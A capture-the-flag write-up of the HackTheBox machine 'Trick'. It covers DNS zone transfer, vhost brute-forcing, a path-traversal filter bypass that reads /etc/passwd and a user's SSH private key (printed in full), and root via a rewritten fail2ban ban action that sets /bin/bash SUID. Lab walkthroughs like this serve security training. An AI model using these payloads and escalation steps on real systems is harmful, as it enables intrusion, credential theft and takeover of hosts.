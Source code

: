 ```yaml
---
title: Trick writeup
date: 2022-06-27 16:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["Easy-box", "enumeration", "dns"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/trick/
image: # Thumbnail 
  src: Trick.png
  width: 1000   # in pixels
  height: 400   # in pixels
---   
```

## Summary
This was a slightly tricky easy-box. It requires a lot of enumeration and even a custom wordlist. The foothold is pretty straightforward however, utilizing an LFI vulnerability to gain an ssh key. Privilege escalation is likewise pretty straightforward given the right blogposts.
## Foothold
We start out with a nmap port scan

```console
┌──(bitis㉿workstation)-[~/htb/Machines/trick]
└─$ nmap -sC -sV -p- 10.129.80.75 -o nmap/full.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-27 21:04 CEST
Nmap scan report for 10.129.80.75
Host is up (0.021s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 309.18 seconds
```
The systm has 4 ports open. 22, 25, 53 and 80. If we check out the website we realize it is extremely barren. 

![welcome](welcome.png)

After looking around for a while we realize nothing really interesting is happening here. What we realize is that on port 53 the box is hosting a DNS service. I tried enumerating vhosts and the like with gobuster, but didn't find anything interesting. While the scan didn't work, we can use `dig` to query the DNS service on the system. We can use the following command to perform an AXFR zone-transfer, gathering all domain names.

```console
┌──(bitis㉿workstation)-[~/htb/Machines/trick]
└─$ dig trick.htb axfr @10.129.80.75                                                                                                                                                                                                    9 ⨯

; <<>> DiG 9.18.1-1-Debian <<>> trick.htb axfr @10.129.80.75
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 23 msec
;; SERVER: 10.129.80.75#53(10.129.80.75) (TCP)
;; WHEN: Mon Jun 27 21:32:33 CEST 2022
;; XFR size: 6 records (messages 1, bytes 231)
```
More information on this can be found [here](https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/). We add the new domain to our `hosts` file and check it out. 

![](welcome2.png)

We are greeted with a login page. We do not know any credentials at this point, so this seems like a dead end at this point. We can use `sed` to prepend a string to each word in a list. Since w ehave a subdomain that starts with `preprod-`, we could append this to each line in our dns enumeration wordlist like so `sed -e 's/^/preprod-/' /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt > dict.txt`. We can then attempt to discover new subdomains via gobuster. 

```console
┌──(bitis㉿workstation)-[~/htb/Machines/trick]
└─$ gobuster vhost -u trick.htb -w dict.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://trick.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     dict.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/06/27 21:57:43 Starting gobuster in VHOST enumeration mode
===============================================================
Found: preprod-marketing.trick.htb (Status: 200) [Size: 9660]
Found: preprod-payroll.trick.htb (Status: 302) [Size: 9546] 
```
We find one new domain that we can add to our hosts file. 

![](welcome3.png)

An interesting aspect of this part is that it uses an argument in the URL, `?page` to load what page to view. If we try to use a path like `../../../../etc/passwd` we don't get anything, however if we try something like `....//....//....//....//etc/passwd` we get the passwd file:

![](passwd.png)

This works since the site is not filtering our inout properly. It replaces or removes the string `../`, but not recursively. This means that the string `....//` gets transformed into `../`, giving us LFI.

We now know that a user named michael exists. We can use the LFI vulnerability to access his ssh key:

```console
┌──(bitis㉿workstation)-[~/htb/Machines/trick]
└─$ curl http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//home/michael/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----

```
We can then use the key to login via SSH, giving us the user flag.

## Privilege escalation
Running `sudo -l` gives us the following:
```
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
michael@trick:~$ 
```
I found [this](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/) blogpost detailing how to abuse fail2ban to gain root privileges. It detials how you can rewrite the file `/etc/fail2ban/action.d/iptables-multiport.conf`{: .filepath} file to run a command when fail2ban bans an ip. We modify the config file to set the bash binary as SUID. We then setup hydra to attack the system, which will then execute the command we configured in the config file instead of banning our ip:

A snippet from the config file can be found below:

```bash
---SNIP---
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = chmod u+s /bin/bash
---SNIP---
```

```console
michael@trick:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
michael@trick:~$ /bin/bash -p
bash-5.0# id
uid=1001(michael) gid=1001(michael) euid=0(root) groups=1001(michael),1002(security)
bash-5.0# 

```
rooted!
